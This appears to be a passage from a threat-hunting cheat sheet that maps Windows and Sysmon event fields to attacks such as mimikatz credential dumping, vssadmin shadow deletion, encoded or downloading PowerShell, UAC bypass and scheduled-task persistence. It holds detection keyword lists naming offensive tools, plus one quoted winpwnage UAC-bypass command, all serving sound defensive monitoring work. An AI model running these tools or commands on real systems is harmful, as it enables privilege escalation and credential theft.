| misc::ncroutemon                                                                | 0x1438                 | kull_m_patch_genericProcessOrServiceFromBuild() via kuhl_m_misc_ncroutemon() | dsNcService                               | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ts::multirdp                                                                    | 0x1438                 | kull_m_patch_genericProcessOrServiceFromBuild() via kuhl_m_ts_multirdp()     | TermService                               | PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION \| PROCESS_QUERY_INFORMATION                          |                                                                                                                                                                                                                                                                                                                                                                                                                              |

## Credential Attack
Fields of Interest:

- event.code: `*4625*`
- Time
- agent.name / winlog.computer_name
- user.name
- winlog.event_data.LogonType
- winlog.event_data.FailureReason
- winlog.logon.failure.reason
- winlog.logon.failure.sub_status

## Remote Login Sessions
Fields of Interest:

- event.code: `*4624* (Logon Successful)`
- event.code: `*4625* (Failed Logon)`
- winlog.event_data.LogonType: `*10*`
- Time
- agent.name / winlog.computer_name
- user.name
- winlog.logon.type

## Network Monitoring IP
Fields of Interest:

- event.code: `*3*`
- Time	
- agent.name	
- agent.hostname / host.name
- winlog.computer_name	
- process.executable	
- user.name	
- destination.domain

## Network Monitoring Domain
Fields of Interest:

- event.code: `*3*`
- Time	
- agent.name	
- winlog.computer_name	
- agent.hostname / host.name
- process.executable	
- user.name	
- source.ip	
- source.port	
- destination.ip	
- destination.port

## Credential Dumping
Fields of Interest:

- event.code: `*1*` or `*4688*`
- Time 
- process.parent.executable 
- process.executable
- process.parent.command_line: `*.dmp*` `*lssas*`
- process.command_line 
- agent.hostname / host.name
- winlog.user.name

## Credential Dumping thru Fileless Attack
Fields of Interest:

- event.code: `*1*` or `*4688*`
- Time 
- process.parent.executable 
- process.executable
- process.parent.command_line: `*mimikatz*` `*DumpCreds*`
- process.command_line 
- agent.hostname / host.name
- winlog.user.name

## Spearphishing Attachment / MalDoc
Fields of Interest:

- event.code: `*1*` or `*4688*`
- process.parent.executable : `*winword.exe*`
- process.executable : `*powershell.exe* OR *cmd.exe*`
- Time
- winlog.computer_name
- winlog.user.name
- agent.hostname / host.name

## Vssadmin Abuse
Fields of Interest:

- event.code: `*1*` or `*4688*`
- Time
- process.working_directory 
- process.parent.executable: `*cmd*`
- process.executable: `*vssadmin*`
- process.command_line: `*vssadmin*` `*delete*` `*shadows*` 
- agent.hostname / host.name

## Powershell Generic
Fields of Interest:

- event.code: `*4104*`
- Time
- winlog.event_data.ScriptBlockText: 
- winlog.event_id
- winlog.computer_name
- agent.hostname / host.name

### Framework
- winlog.event_data.ScriptBlockText: (PowerUp OR Mimikatz OR NinjaCopy OR Get-ModifiablePath OR AllChecks OR AmsiBypass OR PsUACme OR Invoke-DLLInjection OR Invoke-ReflectivePEInjection OR Invoke-Shellcode OR Get-GPPPassword OR Get-Keystrokes OR Get-TimedScreenshot OR PowerView)

### Compression
- event.code: `*4104*`
- winlog.event_data.ScriptBlockText: `*decompress*`

- [Base64 Encoded File Signatures](https://malware.news/t/base64-encoded-file-signatures/27375)
**File Signatures**
File signatures, aka 'magic bytes' or 'file headers', are static bytes that appear at the start of files.

| File type                        | File Signature          | Base64Encoding |
|----------------------------------|-------------------------|---------------:|
| DOS Executable                   | MZ                      |             TV |
| RAR Compressed                   | Rar!                    |          UmFyI |
| PDF                              | %PDF                    |          JVBER |
| Office/Zip                       | PK                      |             UE |
| Rich Text Format                 | {\rtf                   |         e1xydG |
| Compound Binary File (.doc etc.) | D0 CF 11 E0 A1 B1 1A E1 |     0M8R4KGxGu |
| Gzip                             | 1F 8B 08                |           H4sI |

**Common Script Elements**
These script elements are common leading commands that can be encountered during script analysis.
| Script Element | Base64 Encoding |
|----------------|-----------------|
| http           | aHR0c           |
| $\x00          | JA              |
| iex (          | aWV4IC          |
| cmd.exe /      | Y21kLmV4ZSAv    |
| certutil       | Y2VydHV0aW      |
| wscript        | d3Njcmlwd       |
| schtasks       | c2NodGFza3      |
| eval           | ZXZhb           |


### Encoded
Process (Sysmon)
- event.code: `*1*`
- winlog.event_data.CommandLine: `(-Encodedcommand or -Enc or -eNco or -^e^C^ or -ec)`

ScriptBlockText Logging (Powershell)
- event.code: `*4104*`
- winlog.event_data.ScriptBlockText: `(*xor* or *char* or *join* or *ToInt* or *ToDecimal* or *ToString*)`

### Download
- event.code: *4104*
- winlog.event_data.ScriptBlockText: `(*WebClient* OR *DownloadData* OR *DownloadFile* OR *DownloadString* OR *OpenRead* OR *WebRequest* OR *curl* OR *wget* OR *RestMethod* OR *WinHTTP* OR *InternetExplorer.Application* OR *Excel.Application* OR *Word.Application* OR *Msxml2.XMLHTTP* OR *MsXML2.ServerXML* OR *System.XML.XMLDocument* OR *BitsTransfer*)`

### Execute-Assembly
- winlog.event_data.ScriptBlockText: `*Reflection.Assembly* or *Load* or *ReadAllBytes*`

## UAC Bypass 
Fields of Interest:

- event.code: *7* 
- file.path: `*ntwdblib.dll*`
- process.executable: ``*\system32\cliconfg.exe*``

```
python, winpwnage.py, -u, uac, -i, 11, -p, c:\Users\IEUser\Desktop\hellox86.dll
```
Reference:
- https://github.com/vaginessa/WinPwnage-2


## Possible Remote WMI Abuse - Mimikatz (Remote Login)
Fields of Interest:

A logon was attempted using explicit credentials (Windows Security)
- event.code: `*4648*`
- Account.Name
- Account.Domain
- process.executable: `*C:\Windows\System32\svchost.exe*`
- process.executable: `*C:\Windows\System32\wbem\WMIC.exe*`

[Tool Analysis Result Sheet](https://jpcertcc.github.io/ToolAnalysisResultSheet/details/RemoteLogin-Mimikatz.htm)

## Persistence through Short Time Scheduled Tasks
Fields of Interest:

Process (Sysmon)
- event.code: `*1* `
- process.parent.executable
- process.parent.args
- process.executable: `*schtasks.exe*`
- process.args: `*schtasks*`

File Create (Sysmon)
- event.code: `*11*`
- file.path: `C:\Windows\System32\Tasks\{NameOfTask}`

Registry (Windows Security)
- event.code: `*4698*` or `*4699*`
- task.name
- host.name
- user.name
- event.action
- message

**OTHER INDICATORS** 

Tasks running scripts or programs from temp directories or insecure locations (writable by any user) are a good indicator for initial (malware just landed) execution/persistence via
scheduled tasks, includes but not limited to the following locations:
```
1. c: \users\*
2. c:\programdata\*
3. c:\windows\temp\*
```

For scripting utilities pay attention to tasks with action set to one
of the following (inspect the arguments if they point to the below
insecure commonly used paths):

```
1. cscript.exe
5. wmic.exe
2. wscript.exe
6. cmd.exe
3. rundl132.exe
7. mshta.exe
4. regsvr32.exe
8. powershell.exe
```

